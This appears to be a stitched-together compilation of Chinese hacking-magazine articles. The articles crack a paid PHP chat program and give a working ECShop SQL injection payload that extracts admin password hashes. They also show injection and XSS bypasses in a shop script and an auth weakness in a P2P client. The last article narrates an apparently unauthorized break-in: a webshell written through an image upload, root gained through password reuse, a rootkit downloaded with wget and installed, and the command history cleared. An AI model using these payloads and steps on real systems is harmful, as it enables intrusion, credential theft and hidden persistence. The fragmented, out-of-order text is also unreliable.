关于程序的授权破解就到这里了，在这个解密过程中，涉及到的知识并不是很难，关键是要有耐心和对程序代码的分析。比如变量替换、对解密过程中作者的思路分析等，关键是识破了作者禁止输出的代码。

下面我们来看一下同一文件夹下的 `db.php` 文件。看名字应该是和数据库相关，用 EditPlus 打开后发现代码同样大致分两部分，上部分为 `$o` 的加密字符串，下部分为 `eval base64` 加密的代码，如图 7。

我们打开 Freesshow 来对 `eval` 中的 `base64` 进行解密，Freesshow 是一个经常用在代码解密上的小工具，方便小巧，如图 8。图 8 下面的文本框中就是 `db.php` 文件中 `base64` 所加密的内容。初略地看一下可以发现，其中的变量为了迷惑人，已经用长度不一的 `1` 代替了。

```php
eval(base64_decode("QAAAPD9waHAgIGhlYWRlci..."));
```

我们将解密后的代码拷贝到 EditPlus 单独查看，文件的高亮语法可以选择 PHP，如图 9。我们现在来观察一下代码，变量最短的为 `$l1`，长的有 13 个 `1` 的，那么变量的数量应该在 11 个左右了。在这段代码中，有 `eval`、`if` 判断、`for` 循环以及一些位运算。

在代码的第 2 行我用 `//` 注释的部分为原始代码，解密其中的 `base64` 代码就得到了 `$l11111111111='base64_decode';`。由这句话代码我们可以知道其下的所有 `$l11111111111` 的值都为 `base64_decode`，那我们可以对下面类似 `eval($l11111111111("JGxsbGxsbGxsbGxsbgw9J3N0cmxlYmlc7"));` 的代码进行 Base64 的解密处理。处理替换后的代码如图 10。

```php
<?php
$l111=0;
$l11111111111='base64_decode';
$l11=0;
$l1111111111='ord';
$l111111=0;
$l1=base64_decode($o);
$l1111111=0;
$l1111111111111=($l1[1]<<8)+$l1111111111111($l1[2]);
$l11111111111111='strlen';
$l1111111111=16;
$l111111111=0;
for ($l1111111111111111($l1);){
    if ($l111111111==0){
        $l111=($l1111111111111($l1[$l1111111++])<<8);
        $l111+=($l1111111111111($l1[$l1111111++]));
        $l111111111=16;
    }
    if ($l111111111&0x8000){
        $l1111=($l1111111111111($l1[$l1111111++])<<4);
        $l1111+=($l1111111111111($l1[$l1111111++])>>4);
        if ($l1111){
            $l11=($l1111111111111($l1[$l1111111++])+3)&0x0F)+3;
            // ...
```

现在我们再来观察一下代码，可以大概推测到此段代码可能是对 `$o` 进行解密，然后在最后执行解密出的代码，只是这段代码自身的执行流程还不是很清楚。我们的目的就是要能够拿到这个文件的源代码，就是让解密后的源代码能够显示出来。

## 在 magic_quotes_gpc=off 下绕过两种函数

Tommie

- 从本文你可以学到：
  1. addslashes 函数分析
  2. magic_quotes_gpc 机制分析和演示

### 前言

在我的印象中，杂志以前刊登过关于在 ASP 方面绕过函数继续注入、跨站的文章，但在 PHP 这方面很少，为什么呢？其实归根究底还是 PHP 的转义字符在作怪：`\`。换句话说，是 `magic_quotes_gpc=on` 在作怪。

在最新的 PHP6 公布的一些资料上来看，`register_globals`、`magic_quotes_gpc`、`safe_mode` 这三个选项将会不复存在，官方这样的做法是考虑到 PHP 的可移植性问题。去掉了 GPC 选项，很多程序都要改写，到底会改写成什么呢？起码会增加一个模拟 `magic_quotes_gpc` 的函数来处理数据。那么现在研究在 `magic_quotes_gpc=off` 下绕过函数将会很有前景。

### addslashes 函数

很多程序都会考虑到 GPC 影响功能，所以会关闭掉 GPC 选项，而选择用 PHP 的一个内置函数 `addslashes` 来进行预定转义，并模拟一段代码：

```php
define('MAGIC_QUOTES_GPC', get_magic_quotes_gpc());
...
foreach(array('_COOKIE', '_POST', '_GET') as $_request) {
    foreach($$_request as $_key => $_value) {
        $_key{0} != '_' && $$_key = daddslashes($_value);
    }
}
```

```php
function daddslashes($string, $force = 0) { // 这里 daddslashes 函数跟 addslashes 是不同的，注意名称。
    !defined('MAGIC_QUOTES_GPC') && define('MAGIC_QUOTES_GPC', get_magic_quotes_gpc());
    if(!MAGIC_QUOTES_GPC || $force) {
        if(is_array($string)) {
            foreach($string as $key => $val) {
                $string[$key] = daddslashes($val, $force);
            }
        } else {
            $string = addslashes($string);
        }
    }
    return $string;
}
```

`define`、`defined` 是 PHP 内置函数，前者用于定义常量，后者则是查看常量是否存在。这里有两个 `foreach`，读者会比较难理解：首先把 `'_COOKIE'`、`'_POST'`、`'_GET'` 这三个值以 `array` 函数传递给 `$_request`，此时 `$_request` 就会变成数组，`$_request[0]` 的值是 `_COOKIE`，`$_request[1]` 的值是 `_POST`，`$_request[2]` 的值是 `_GET`，并且用第一个 `foreach` 将它们循环输出；然后再到第二个 `foreach`：`$$_request` 这句其实可以代换成 `$_COOKIE`、`$_POST`、`$_GET`；由于在 PHP 中，双引号中的变量仍然起作用并可代表在变量里的值，所以上面三个数组变量再代换成大家很熟悉的 `$_COOKIE`、`$_POST`、`$_GET`，并循环输出。

`$_key{0} != '_'` 即是我们提交的第一个数据的名称不能是 `_`，这个显然可以满足；然后到了 `daddslashes($val, $force)`，注意这里传入的参数是 `$val` 和 `$force`。

最后就是 `daddslashes` 函数的定义：`&&` 代表 AND 运算符，`||` 代表 OR 运算符；不存在 `MAGIC_QUOTES_GPC` 常量并且用 `define` 函数定义常量做一个 AND 运算。

继续，如果 `MAGIC_QUOTES_GPC` 不存在值，而 `$force` 不存在值、或者两者都存在值，则判断 `$string` 是否为数组。是的话就用 `foreach` 循环输出每一个值，并用 `daddslashes` 函数循环预定转义每一个值。注意这里的参数还是 `$val` 和 `$force`。

这段代码需要用到运算符优先级，函数的默认值、递归调用等等小知识。从这段代码不难看出，`addslashes` 函数的参数 (`$string`) 就是 `daddslashes` 函数的参数 `$val`。

大家可能认为这段代码找不到什么问题，但如果你注意到它的参数的调用，就不难发现：函数只过滤了 `$val`，而 `$_key` 并没有过滤。相反，在 `magic_quotes_gpc=on` 时不仅处理变量值，还处理变量名。其实 `daddslashes` 函数只是模拟了 GPC 的一部分功能而已。


### 实例

ECShop 是最大的免费开源网店系统（用户量不在话下），其小于 v2.6.2 版本的 `includes/init.php`（这个文件经常被包含）当 GPC 为 OFF 时使用 `addslashes_deep` 函数过滤 `$_REQUEST`、`$_COOKIE`，相关代码如下：

```php
if (!get_magic_quotes_gpc())
{
    if (!empty($_GET))
    {
        $_GET = addslashes_deep($_GET);
    }
    if (!empty($_POST))
    {
        $_POST = addslashes_deep($_POST);
    }
    $_COOKIE = addslashes_deep($_COOKIE);
    $_REQUEST = addslashes_deep($_REQUEST);
}
```

如果 `get_magic_quotes_gpc` 为 off 而且存在 GET 提交过来的数据，则用 `addslashes_deep` 函数来过滤 `$_GET` 这个 PHP 内置变量（数组），下面类同。`addslashes_deep` 函数在 `includes/lib_base.php` 里最后通过 `addslashes` 函数处理，相关代码如下：

```php
function addslashes_deep($value)
{
    if (empty($value))
    {
        return $value;
    }
    else
    {
        return is_array($value) ? array_map('addslashes_deep', $value) : addslashes($value);
    }
}
```

如果 `$value` 为空，则返回为空；否则用 “A?B:C” 运算符来判断，这个其实可以代换成如下代码：

```php
if (is_array($value))
{
    array_map('addslashes_deep', $value);
}
else
{
    addslashes($value);
}
```

如果 `$value` 是数组，就用 PHP 内置函数 `array_map` 来调用 `addslashes_deep` 函数重复过滤 `value` 数组的每一个值；否则用 `addslashes` 来预定转义。其中 `array_map` 函数的作用用一个例子来说明，代码如下：

```php
<?php
function cube($n) {
    return $n*$n*$n; // 这个函数用参数 $n，并以 $n 的三次方的值返回
}

$a = array(1, 2, 3, 4, 5); // $a是数组
$b = array_map("cube", $a); // 用 cube 函数在 array_map 下重复执行在 $a 数组中每一个值的三次方运算
print_r($b); // $b 是数组，做输出作用。
?>
```

结果如图 1 所示。


我们在看完函数后再来看 ECShop 的漏洞文件 `pick_out.php`，相关代码如下：

```php
if (!empty($_GET['attr']))
{
    foreach ($_GET['attr'] as $key => $value)
    {
        $key = intval($key);
        $_GET['attr'][$key] = htmlspecialchars($value);
    }
}
... 省略部分代码
$attr_table = '';
$attr_where = '';
$attr_url = '';
$i = 0;
$goods_result = '';
foreach ($_GET['attr'] as $key => $value)
{
    $attr_url .= '&attr[' . $key . ']=' . $value;
    $attr_picks[] = $key;
    if ($i > 0)
    {
        if (empty($goods_result))
        {
            break;
        }
        $goods_result = $db->getCol("SELECT goods_id FROM " . $ecs->table("goods_attr") . " WHERE goods_id IN (" . implode(',', $goods_result) . ") AND attr_id='$key' AND attr_value='$value'");
    }
    else
    {
        $goods_result = $db->getCol("SELECT goods_id FROM " . $ecs->table("goods_attr") . " WHERE attr_id='$key' AND attr_value='$value'");
    }
    $i++;
}
```

这里读者可能感到迷惑，PHP 内置函数 `intval` 强制转换 `key` 为数字型，有什么问题？仔细地看，看到上面的第一个 `foreach` 的 `$_GET['attr'] as $key => $value` 了吗？它的代码可以代换成：

```php
...
foreach ($_GET['attr'] as $key => $value) // 修正逻辑理解
{
    $key = intval($key);
    $_GET['attr'][$key] = htmlspecialchars($value);
}
```

这里我们看到了，`as` 关键字的作用是在 `foreach` 中将 `$_GET['attr']` 数组的每一个键和每一个值循环复制给 `$key` 和 `$value`，但它并不影响我们提交在 `$_GET['attr']` 中的数据（它只是一个拷贝）。

尽管这样，但是这个文件包含了我们上面所说的 `init.php`，也就是说 `$_GET['attr']` 的每一个值我们都不能控制，但每一个键我们还是可以利用的！

再就是第二个 `foreach`，`$key` 变量先经过了两个赋值，然后通过 `if` 判断，程序已经在上面定义了 `$i=0`，那么我们将会执行下面 `else` 那个 SQL 查询。这个循环虽然也是拷贝 `$_GET['attr']`，但是这个和上面那个不同，这个 `foreach` 是直接带入数据库查询的。不过这里并没有对 `$key` 做任何过滤，从而导致 SQL 注入。

我们构造如下 SQL:

```sql
pick_out.php?cat_id=123456&attr[' UNION SELECT CONCAT(user_name, 0x3a, password) AS goods_id FROM ecs_admin_user WHERE action_list='all' LIMIT 1#]=Tommie
```

我们看到上面的 `"SELECT goods_id FROM ..."` `$ecs->table("goods_attr") . " WHERE attr_id='$key' AND attr_value='$value'"` 只有一个列，如果要用联合查询，就需要用到 `CONCAT` 函数帮我们连接字符串。其中 `0x3a` 是 “:” 的十六进制形式，这个语句让前面 `attr_id` 为空，那么前面的 `WHERE` 子句就会为 `FALSE`，从而进入我们的联合查询。

### preg_replace 函数

如果用这个函数过滤数据，应该会用来处理 XSS。由于我还没找到关于这个函数的实例，下面的代码（用于处理注入）是在理论上的想法：

```php
<?php
$test=0;
extract($_GET);
echo $test=preg_replace("/^(.*)(\')/", "\1\'", $test);
?>
```

这个属于正则表达式过滤，我们提交 “1' and 1=1#”，返回如图 2 所示。


图 2 返回结果


图 3 返回原值

这个正则对单引号转义处理了。那么想绕过这种函数只有一个原则：让它匹配不了。

“.*” 可以匹配任意数量的字符，但它并不匹配回车符。我们将回车符进行 URL 编码，得到 `%0D%0A`，并提交 `%0D%0A1' and 1=1#`，那么正则表达式匹配不了，函数就会自然地返回原值，如图 3 所示。

好了，希望这篇文章能引导大家走在技术的前沿，谢谢大家。

> 编辑点评：这篇文章提供了一个很好的思路，大家可以按照这个思路进一步深入分析和探索。

---

**[补充内容：某聊天室解密历程]**

来。其实把 `eval($IIIIIIIIII)` 替换成 `echo ($IIIIIIIIII)`；就可以实现我们的想法，现在来合成自己的代码，加入 `$o` 为需要解密的代码 (db.php 上半部分)，下半部分为解密的代码，如图 11。

在环境中运行后即可显示出文件的源代码，如图 12。

到这里，这个聊天室的解密工作就基本完成了，能够达到我们不注册而正常使用的目的。在破解的过程会遇到很多的问题，但是目的达到之后就是灯火阑珊处的感觉，在这里写下来，也就是个历程分享的过程。作者既然写出来了程序，就要有着被别人破解的准备，其实，我更喜欢开源程序。

> 编辑点评：文章写的很好，但是小编站在一个程序员的角度，觉得有点纠结。

---

## 校园店小二漏洞分析

- 从本文可以学到：
  1. 校园店小二漏洞分析
  2. 漏洞的利用

某天在网上看到这套程序，由于被它的名字吸引，就下载来看看，本以为是什么学校班级之类的程序，谁知是一套电子商务类程序。对啊，本身就说明了是“店小二”嘛。好了，不扯淡了，经过简单的分析，发现这个程序还是问题蛮多的，这样做生意，不亏本就奇了！

### 一、注入 1

我比较爱黑箱子，随便点个 URL：在 `http://127.0.0.1/shop1/goods.asp?id=29` 后面加一个单引号，可怕的框框弹出了，如图 1。


图 1 可怕的框框

看来有人在背后撑腰，我再继续找。找啊找，在 editplus 下把所有找到 `request` 的页面都测试了，还是没找到注入点。再回去翻翻源码吧，跟踪到 `inc/SafeRequest.asp` 这个文件，发现有防注入代码：

```asp
<%
Dim StrTemp
StrTemp=request.servervariables("server_name")&request.servervariables("url") &"?"&Request.QueryString
StrTemp=LCase(StrTemp)
If Instr(StrTemp,"select%20") or Instr(StrTemp,"insert%20") or Instr(StrTemp,"delete%20from") or Instr(StrTemp,"count(") or Instr(StrTemp,"drop%20table") or Instr(StrTemp,"asc(") or Instr(StrTemp,"truncate%20") or Instr(StrTemp,"update%20") or Instr(StrTemp,"mid(") or Instr(StrTemp,"char(") or Instr(StrTemp,"xp_cmdshell") or Instr(StrTemp,"exec%20master") or Instr(StrTemp,"net%20localgroup administrator") or Instr(StrTemp,"net%20user") or Instr(StrTemp,"%20or") or Instr(StrTemp,"%20and") or Instr(StrTemp,"''") or Instr(StrTemp,"'") or Instr(StrTemp,"#") or Instr(StrTemp," ") or Instr(StrTemp,";") or Instr(StrTemp," ") or Instr(StrTemp,":") or Instr(StrTemp," ") or Instr(StrTemp," ") or Instr(StrTemp,"(") or Instr(StrTemp,")") or Instr(StrTemp,"%27") then
Response.Write"<script language='javascript'>alert('错误的参数传递，请不要企图破解程序！');history.back();</script>"
Response.end
End If
%>
```

这个 `Request.ServerVariables("Server_Name")` 是获取服务器的主机名、DNS 地址或 IP 地址，简单的说就是通过 GET 取得的 `request.querystring`，这个可以构造表单以 POST 形式绕过，表单保存为 1.htm，如图 2，代码如下：


图 2 利用页面

```html
<html>
<form action="http://127.0.0.1/shop1/goods.asp?" method="post">
<input type="hidden" name="id" value="29' union select ...">
<input type="submit" value="提交">
</form>
</html>
```

```html
<input type="text" name="id" id="id" >
<input type="submit" value="post data">
</form>
</html>
```

post 后出现如图 3 的现象，返回提示“你的非法操作会被记录，如有必要，我们会送到相关部门”。


千万不要被它唬住了，因为 goods.asp 这个文件本身也有一次过滤，相关代码如下：

```asp
<%
If Not(IsNumeric(Request("id"))) Then
Response.Write "<div align=center>你的非法操作会被记录,如有必要,我们会送到相关部门</div>"
Response.End
End If
Set rs = Server.CreateObject("ADODB.Recordset")
sql = "select * from goods where id=" & Request("id")
rs.Open sql, conn, 1, 1
If rs.EOF Then
Response.Write "<div align=center>没有此商品的信息</div>"
Else
sc = rs("sclassid")
%>
```

IsNumeric 把 ID 强制过滤为数字型参数，由此杜绝注入。虽然如此，但我相信还是会有疏漏的。继续查找其它页面，后来在 Newsinfo.asp 文件发现可以注入的代码：

```asp
<%
Set rs = Server.CreateObject("ADODB.Recordset")
sql = "select * from news where id=" & Request("id")
rs.Open sql, conn, 1, 1
If rs.EOF Then
Response.Write "<br><br><div align=center>没有此新闻动态的详细信息</div>"
Response.End
Else
%>
```


Request("id") 没有规定是 Request.QueryString，可以利用 Request.Form。把之前构造的表单作出相应修改就可以利用啦，看看输入“69 and 1=1”和“69 and 1=2”的结果，明显存在着注入，如图 4、图 5、图 6。

## 二、注入 2

另外，在“找回密码”处也存在注入，文件 UserPassWord.asp，代码如下：

```asp
if Request("action")="step1" then
if Request("cname")="" then
Response.Write "<script language=JavaScript>" & vbCrLf
Response.Write "alert("" 用户名不能为空! "");"
Response.Write "window.location.href='javascript:history.go(-1)';"
Response.Write "</script>" & vbCrLf
end if
Set rs = conn.Execute("select cname from dduser where cname='" & Request("cname") & "'")
```

利用效果如图 7、图 8、图 9。Request("cname") 接受我们的用户名，在第一步输入用户名 `www'and 1=1 and ''='`，这句是正确的，就跳到第二步：“请输入找回您的密码的答案”。我们输入 `www'and 1=2 and ''='`，就提示“抱歉没有该用户”。实际利用时，把中间的 and 1=1 换成注入语句即可。

## 三、跨站

XSS 是多数程序普遍存在的漏洞，一般在留言处，这里文件是 Gbook.asp。在“昵称”处输入 `<xss>`，再查看源文件，发现“<>”都没过滤，留言交给 Addbook.asp 文件处理，这个文件的相关代码如下：

```asp
txtToURL = Tekst_temp
END FUNCTION

name = Request("name")
email = Request("email")
oicq = Request("oicq")
text = Request("text")
home = Request("home")
image = Request("image")
sex = Request("sex")

if name="" or home="" or text="" or email="" then
Response.Write " 请认真填写! "
else
Set rs = Server.CreateObject("ADODB.Recordset")
sql = "select * from book where (id is null)"
rs.Open sql, conn, 1, 3
rs.AddNew
rs(" 昵称 ") = name
rs("email") = email
rs("OICQ") = oicq
rs(" 内容 ") = txtToURL(text)
rs(" 时间 ") = FormatDateTime(Date, 1) & Right(Time(), 8)
rs("image") = image
rs("home") = home
rs("sex") = sex
rs("ip") = Request.ServerVariables("remote_addr")
rs.Update
rs.Close
Set rs = Nothing
conn.Close
Set conn = Nothing
end if
Response.Redirect "gbook.asp"
%>
```


其实它也是有过滤的，上面有这句话代码：`txtToURL =`

```asp
Function txtToURL(tekst)
Tekst_temp = tekst

Tekst_temp = Replace(Tekst_temp, "<", "&lt;")
Tekst_temp = Replace(Tekst_temp, ">", "&gt;")
Tekst_temp = Replace(Tekst_temp, "chr(13)", "<BR>")
Tekst_temp = Replace(Tekst_temp, "chr(10)", "<BR>")
Tekst_temp = Replace(Tekst_temp, "#", "<BR>")

Tekst_temp = Replace(Tekst_temp, Chr(13), "<BR>")
Tekst_temp = Replace(Tekst_temp, "[", "<B>")
Tekst_temp = Replace(Tekst_temp, "]", "</B>")
```


函数值传递给 txtToURL 后，只过滤了 text，就是内容，所以其它没过滤的地方就产生了跨站。为什么程序员如此大意呢？我想是因为他在其余地方设置了输入长度，比如昵称就有 maxLength=18 的限制。当然，这个也能通过构造本地的表单绕过。

查看发表留言的源文件，查找“昵称”并修改 `<INPUT class="border" maxLength=18 name=name size="18">` 中 maxLength 为 180 就足够了。然后保存在本地，用 IE 打开 HTML 后输入跨站代码，如图 10、图 11。

这个 XSS 足以拿到 webshell，只要抓包构造消息即可。我在上期也写了篇 XSS 的利用，是用 AJAX 来模拟 POST 数据的，大家可以参考一下，这里不再多说。

以上就是简单的分析，相信还存在其它的 bug，有兴趣的朋友就自己挖掘吧！也欢迎大家到 http://hi.baidu.com/cnryan 与我交流，我是 cnryan。

> **编辑点评：**
> 几个比较常见的漏洞，分析的过程比较详细，适合对漏洞分析过程还不是很熟悉的同学。

## 对汉魅士的安全性检测

- 从本文可以学到：
  1. 汉魅简介
  2. 汉魅漏洞分析

最近在找一些资料，但是发现除了教育网内有，其它地方都一无所获。可教育网是基本无法进入，除非用代理或者 VPN，这里我们介绍汉魅。汉魅？啥东西？且听官方的介绍。

汉魅是一款完全免费且专门针对高校教育网量身定做的 P2P 资源分享软件。汉魅把复杂的高校教育网络进行整合，组成一个庞大的资源分享平台。用户既可以在汉魅网络中搜索、浏览到海量的优秀资源，又可以将自己的资源便捷的分享给好友。

- 它有以下特点：
  - 可以根据关键词搜索本校共享的资源，高速下载；
  - 可以精搜全国任意高校在线用户并下载其共享资源；
  - 可以通过设置而达到下载不计校园网流量；
  - 集共享、下载、电台、即时通讯、个性空间于一体；
  - 软件系统内学习资源数量超过 1 亿个；
  - 每天通过软件下载的文件盘大小超过 100 万 G；
  - 下载本校用户共享的资源速度最高可达 4MB/s 以上。

看到这些特点是不是心里痒痒了，特别是学习资源超过 1 亿个，那还不赶紧试试。哦！我错了，怎么做起广告来了呢(*^__^*)。在拿到了我想要的资料后，觉得这样一款功能优秀的软件是否在安全性方面也过硬呢？不如来个检测，看看内、外功是否兼修了。

首先找到安装文件夹，我是默认安装的，在 Program Files 下即可找到名为 Huntmine 的文件夹，进入后稍看了一下，其中 Config 文件夹引起了我的注意，进去瞧瞧。

其中有很多 ini 配置文件，一个个打开来看了一下，其中有两个文件觉得可以利用，文件名分别为 LoginConfig.ini 和 Name2ID.ini。


先来看 LoginConfig.ini，文件内容如图 1 所示。
Login 段为上一次登录的账号及相应配置，Name 为上一次登录的账号名，Auto 为是否自动登录，1 为是，0 为否，默认为 0。Hide 为是否隐身登录，1 为是，0 为否，默认为 0。UserName 为账号框中的账号列表，0 后面的是第一个账号名，如果有第二个，数字将是 1，以此类推，Count 为账号的总数。这里我已经把 Auto 和 Hide 改成了 1，即自动且隐身登录。

修改完成保存文件后双击执行程序，惊讶的发现一个非常弱智的问题，尽管登录成功了。为什么惊讶呢？反过来看一下上面的文章，其中根本没有提到密码，而我之前也没有通过正常的方式设置记住密码自动登录，那密码由何而来？只有两种可能，**一是不管是否设置自动登录，密码都会保存在本地，自动登录时直接使用；二是自动登录根本没验证密码。**

如果是第二种，那么这个问题将是非常严重的，只要替换掉上面 Login 段中的 Name，那么想用哪个账号登录就可以用哪个账号登录。

到这里，不再继续下去，如果需要深入研究是否保存到本地，方法很简单，使用 Filemon 监视一下登录过程中是否在读某个特殊的文件即可。

下面我们来看一下密码的安全性。在自动登录

西线首语：今年烟台的夏天是特别的热，我生活中的烦心事也很多，能让我静下心来的好像只有沉浸在学习中这件事了。其实你心里有了求知欲，在学习中一天一天看到自己的进步，也是会有一点点成就感的。如果你也像我一样有烦心的事，我也向你推荐用不断学习的方法来忘记烦恼，好比看看“黑手”啦，效果还是不错的。

## 特殊的 PHP 上传漏洞，再到获取 Linux root，最后栽下 rootkit

sunwear [E.S.T]

> 从本文你可以学习到：
> 如何绕过 PHP 代码的文件头检测来进行上传以及 Linux 留门的技巧。

很久不写东西了，写个 Linux 系统 Web 到 Root 的入侵笔记吧。简单来说，过程没什么技术含量，看了可以为大家提供一个不常用的上传思路，和新的 Linux 本地权限提升漏洞的使用方法，以及介绍一款 rootkit。

事情起因是有个朋友要搞站，死活搞不定，就来骚扰我。我现在是不怎么喜欢搞站的，偶尔搞搞也是搞点新鲜的玩玩，怕荒废了。最近几年主要还是研究逆向和漏洞方面的东西，不过这鸟人唐僧似的骚扰法整得我实在“心神不宁”，又不好意思拒绝，勉强帮忙看一下吧。

首先用 Nmap 检测一下目标网站的系统服务和一些端口 banner 的信息，结果如下：

| 端口/协议 | 状态 | 服务 | 版本信息 |
| :--- | :--- | :--- | :--- |
| 21/tcp | open | ftp | ProFTPD |
| 22/tcp | open | ssh | OpenSSH 4.3 (protocol 2.0) |
| 25/tcp | open | smtp | Sendmail 8.13.8/8.13.8 |
| 53/tcp | open | domain | ISC BIND 9.3.4-P1 |
| 80/tcp | open | http | Apache httpd |
| 135/tcp | filtered | msrpc | |
| 136/tcp | filtered | profile | |
| 137/tcp | filtered | netbios-ns | |
| 138/tcp | filtered | netbios-dgm | |
| 139/tcp | filtered | netbios-ssn | |
| 445/tcp | filtered | microsoft-ds | |
| 593/tcp | filtered | http-rpc-epmap | |
| 623/tcp | filtered | unknown | |
| 664/tcp | filtered | unknown | |
| 873/tcp | open | rsync | (protocol version 29) |
| 3306/tcp | open | mysql | MySQL 4.0.27 |
| 4444/tcp | filtered | krb524 | |
| 5000/tcp | open | tcpwrapped | |
| 8080/tcp | open | http | Apache Tomcat/Coyote JSP engine 1.1 |

Service Info: Host: ****.com; OS: Unix

还有一部分信息我省略了，免得占用太多篇幅。从上面的探测结果来分析，这系统显然不会是 Windows 了，扫描结果也没有太大的直接利用价值，应该不会有弱口令或溢出之类的漏洞，一般这些情况会发生在 Windows 的服务器上，下面就该看网站上的信息了。

网站是由一套 PHP 程序组成的，我对程序鉴别不是很在行，所以也就不知道是否开源，是否有漏洞。那么我就先从 Google 搜索关键字“inurl:.php site:***.kr”来搜寻 PHP 的页面。

把 Google 的链接放到类似于“管中窥豹”这类工具中扫描，结果不出所料，一个注入点也扫不到。接着想到用 Web Vulnerability Scanner 来扫描网站的整体架构，一般只要看了扫描结果，基本对网站的整体框架就会有一定的了解，然后从中搜寻入手点。

在主页上我看到有一个登录界面，我喜欢先找上传方面的问题，有可以同网站交互的地方，就可能存在着隐患。所以我现在注册一个账户并且登录进去，之后在主页上找到了一个类似论坛或交流版的地方，可以发帖。发帖功能中可以上传附件，这里就是通向 webshell 的桥梁，但这个桥并不是那么好过。

选择要上传的图片后，自动就传上去了，这个省事，省得我去点上传了。图片上传好后点“确定”，从编辑窗口中修改编辑格式为“text”就可以看到上传后的地址：“``”。

现在我试着伪造一个 GIF 文件头的 PHP 木马来上传。上传失败，即使后缀改为 gif 也失败，这个上传功能看来要验证完整的图片代码才可以。看来要换个方法，现在使用 edjpgcom 程序来把 PHP 一句话木马注入到 JPG 文件中。

注意：这个工具只能把代码注入 JPG 格式的图片，不支持 PNG 以及 GIF（原理上来说应该可以，只不过工具打不开非 JPG 格式图片）。工具的使用格式为：`edjpgcom.exe 要注入的jpg图片`。

把代码写入里面，点“OK”就可以了。现在那个图片中就被注入了 PHP 一句话木马，那个复选框的“delete backup”选项的意思是问是否删除备份，如果不选择的话会在当前目录生成一个后缀为 bak 的备份文件。

现在把处理过的 JPG 文件后缀修改为 PHP，然后上传。依然无效，看来这个工具并不适合在这里利用，本地包含漏洞可以试试这个。

现在再换一种方法，使用 c32asm 以 16 进制显示方式打开这个图片文件，在文件末尾加上 PHP 一句话代码。尽量在 PHP 代码前面再加上个空格，因为有些时候如果不加空格，“<”符号会与前面的字符发生冲突。

现在把插入一句话的 JPG 文件后缀改成 PHP 上传上去，上传成功，地址是：``。我们用一句话客户端访问，并没有返回我所希望的结果。

将图片下载到本地用记事本查看，PHP 代码没有了，我还以为上传过程中将恶意代码过滤了。后来我将这个文件放到自己的 PHP 环境中测试，发现并没有将我们的代码过滤，那么是执行成功了的。

既然一句话木马达不到我们的目的，我们就再换最后一个方式。依然是使用刚才的图片，用 c32asm 以 16 进制格式编辑，在文件末尾处删除掉刚刚的一句话代码，换成下面这段代码：

```php
<?php fputs(fopen("sunwear.php","w"),"<?php eval(\$_POST[sunwear]);?>"); ?>
```

然后保存为 PHP 文件再进行上传。这段代码的意思是在当前目录下生成一个名为 sunwear.php 的文件，内容是我们的一句话木马。上传后访问该地址，然后试试用一句话客户端连接这个地址同目录下的 sunwear.php，密码为 sunwear。

这下终于传上来了，下面的工作就是传大马了。取得 webshell 并不是我理想的结果，Linux 下不拿到 root 感觉还是不舒服，所以继续踏上提权之旅。为了方便提权，先用 webshell 反弹回一个命令行的 shell 再说。c99 这类的 shell 貌似都有反弹 shell 的功能（有 Perl 版或 C 版）。

来看下系统相关信息，确定我们是在什么环境下：

```bash
cat /proc/version
# Linux version 2.6.18-128.1.10.el5 (mockbuild@builder16.centos.org) (gcc version 4.1.2 20080704 (Red Hat 4.1.2-44)) #1 SMP Thu May 7 10:39:21 EDT 2009

cat /etc/redhat-release
# CentOS release 5.3 (Final)

uname -a
# Linux eposang.com 2.6.18-128.1.10.el5 #1 SMP Thu May 7 10:39:21 EDT 2009 i686 i686 i386 GNU/Linux
```

从以上信息可以了解到，Linux 内核版本是 2.6.18，版本很高，目前只能试试新出不久的 udev 本地溢出提权漏洞。由于返回的 shell 没权限使用 wget，所以直接用 webshell 来传，创建一个文件名为 1，把 exp 写入进去。Exploit 地址：http://www.milw0rm.com/exploits/8478。

然后使用命令：`chmod +x 1`，赋予 exp 文件执行权限。现在我们需要获取 udev 的进程 PID，执行命令：`ps ax|grep udev|grep -v grep|awk '{print $1}'`，返回 457。而 exp 参数需要的是进程 ID 减 1，也就是 456，执行如下命令：

```bash
./1 456
# /bin/sh: ./1: /bin/sh^M: bad interpreter: No such file or directory
```

这个是由系统编码所引起的错误，解决方法：

```bash
vi 1
:set ff=unix
:wq
```

现在 OK 了，继续执行：

```bash
./1 456
# suid.c: In function 'main':
# suid.c:3: warning: incompatible implicit declaration of built-in function 'execl'
# ./1: line 131: /tmp/udev: Permission denied
```

/tmp/udev 没有执行权限，chmod +x 无用，看来现在我就要对 exploit 进行修改了。把 /tmp/ 替换为一个拥有权限的目录，比如 web 目录（注意不要设置与程序同一个目录），再执行命令看回显。执行上没有出问题，但似乎并没有成功。据有经验的朋友讲，有时候需要反复溢出，但我大概溢出了 N（N>10）次也没见成功。

此路不通换一路。现在找到网站的数据库连接配置文件，看到 MySQL 的用户和密码，可惜不是 root。这个服务器有很多库，用户名是网站的名字，似乎有点虚拟主机的样子。

还是连接到数据库，将管理员表中的几个密码都记下来，然后一个一个的在 SSH 上登录。试了大概 10 来个密码，一个也没进去，最后用 MySQL 的密码连上了 root。貌似是我的大脑短路了，应该先试 MySQL 的密码啊。之后我发现服务器上果然所有密码基本上都是同一个（FTP、SSH、网站等等）。

有了 root 权限，剩下的工作就是留个 rootkit 了。前几天 opensc.ws 上有人放了一个 Linux 2.6.* 内核的 rootkit，我在自己的服务器和虚拟机上都测试了一下，还是不错的。

用 root 登录 SSH，wget 下载：

```bash
[root@*** tmp]# wget http://forum.eviloctal.com/attachment.php?aid=13419
# ... 省 略 ...
# 446,713 275K/s in 1.6s /*速度还挺快 */
# 10:38:45 (275 KB/s) - 'mafix.tar.gz' saved [446713]
```

然后使用命令：`tar zxvf mafix.tar.gz` 解压缩。接着进入目录，赋予 root 文件执行权限。这个后门的安装格式为：`./root 连接密码 端口`。由于这个服务器配置问题，bash 没有执行权限，我换了个目录执行。安装成功后目录会自动删除，最后使用命令：`history -c` 清除我们的命令记录。

> 编辑点评：将 PHP 木马代码插入在图片中调用之后没有回显，这个以前碰到过，是因为它回显之后又把返回结果代码放在图片里边了。我当时还找不到可写目录，下载图片又麻烦，后来用 Adodb.Stream 这个可以读取二进制文件的组件来解决了这个问题。

---

### 【技术补充】特殊的 PHP 上传漏洞：UCenter 配置文件写入

把里面的地址替换成目标的地址，我代码中的 step 参数为 3，这样直接提交我们要利用的变量内容就可以了，不需要管其它设置。木马内容是一句话，连接密码为 sunwear，提交以后如果返回以下内容，那么就代表提交成功了：

```
# 配置完成
已完成 UCenter 的相关配置，请登陆 FTP 删除 installuc.php 这个文件
点击返回主界面，进行下一步操作
```

